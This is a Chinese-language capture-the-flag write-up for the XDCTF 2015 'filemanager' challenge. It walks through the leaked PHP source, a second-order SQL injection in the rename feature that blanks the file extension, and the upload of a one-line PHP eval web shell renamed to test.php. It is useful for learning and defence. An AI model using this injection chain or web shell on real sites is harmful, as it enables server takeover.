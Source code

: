 ```yaml
---
title: '[XDCTF 2015]filemanager'
date: 2024-11-04 19:06:31
tags:
       - 文件上传
       - sql注入
categories: 刷题笔记
---
```


# XDCTF 2015 Filemanager

我们扫描目录发现一个/www.tar.gz

我们找到数据库的字段结构

![image-20241104193444339](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411041934441.png)

common

- 对传入的参数进行了addslashes()转义
- 数据库连接和遍历数组
- 基本没有直接的注入漏洞 

upload

- 白名单限制了后缀名为gif，jpg，png，zip，txt
- 查询文件名是否存在，进行了addslashes()转义
- 也不存在直接注入漏洞

delete

- 就是删除，没什么好讲

所以我们无法上传恶意文件，由于版本限制，也不能使用%00截断，但我们发现有个rename功能

```php+HTML
<?php
/**
 * Created by PhpStorm.
 * User: phithon
 * Date: 15/10/14
 * Time: 下午9:39
 */

require_once "common.inc.php";

//isset函数是检测变量是否设置
if (isset($req['oldname']) && isset($req['newname'])) {
    //先查询数据库中是否已存在旧文件名
    $result = $db->query("select * from `file` where `filename`='{$req['oldname']}'");
    if ($result->num_rows > 0) {
        $result = $result->fetch_assoc();
    } else {
        exit("old file doesn't exists!");
    }

    if ($result) {

        //basename() 函数返回路径中的包含后缀的文件名部分。
        $req['newname'] = basename($req['newname']); 
        
        //更新数据库中的旧文件名（不包含后缀的文件名）为新文件名（包含后缀的文件名）
        $re = $db->query("update `file` set `filename`='{$req['newname']}', `oldname`='{$result['filename']}' where `fid`={$result['fid']}");
        if (!$re) {
            print_r($db->error);
            exit;
        }
        //更新服务器上的旧文件名为：数据库中的新文件名（包含后缀）+数据库中的旧扩展名
        //更新服务器上的新文件名为：客户端输入的新文件名（包含后缀）+数据库中的旧扩展名
        //因此，在这里，我们可以先把数据库中的旧扩展名置为空，然后rename时，把新文件名设置为test.php
        $oldname = UPLOAD_DIR . $result["filename"] . $result["extension"];
        $newname = UPLOAD_DIR . $req["newname"] . $result["extension"];
        if (file_exists($oldname)) {
            rename($oldname, $newname);
        }
        $url = "/" . $newname;
        echo "Your file is rename, url:
                <a href=\"{$url}\" target='_blank'>{$url}</a><br/>
                <a href=\"/\">go back</a>";
    }
}
?>
<!DOCTYPE html>
<html>
<head>
    <title>file manage</title>
    <base href="/">
    <meta charset="utf-8" />
</head>
<h3>Rename</h3>
<body>
<form method="post">
    <p>
        <span>old filename(exclude extension)：</span>
        <input type="text" name="oldname">
    </p>
    <p>
        <span>new filename(exclude extension)：</span>
        <input type="text" name="newname">
    </p>
    <p>
        <input type="submit" value="rename">
    </p>
</form>
</body>
</html>
```

只能修改文件名，但我们可以通过sql注入，影响extension为空，然后在修改文件的时候加上.php后缀

![image-20241104193831525](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411041938570.png)

但还有个坑，这里改名的时候检查了文件是否存在：if(file_exists($oldname))。虽然通过注入修改了filename的值，但upload目录下上传的文件名是没有改的。 因为利用注入将extension改为空了，那么实际上数据库中的filename总比文件系统中真实的文件名少一个后缀。 那么这里的file_exists就验证不过。怎么办？ 简单啊，再次上传一个新文件，这个文件名就等于数据库里的filename的值就好了。

我们先上传一个用来sql注入的文件

![image-20241104195257834](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411041952870.png)

然后修改文件名

![image-20241104195408119](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411041954148.png)

我们就得到了一个新的文件名test.txt.txt，但是数据库中经过update语句

```mysql
update `file` set `filename`='test.txt', `oldname`='',extension='' where `fid`={$result['fid']}
```

实际上，下文件的filename为test.txt，extension为空

然后我们在上传一个和上面newname文件名相同的木马文件

```
<?php eval($_POST[1]); ?>
```

![image-20241104195733370](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411041957401.png)

然后我们重命名文件为test.php

![image-20241104195915574](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411041959621.png)

我们访问/upload/test.php，通过蚁剑进行连接，得到flag

**![image-20241104200024606](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411042000661.png)
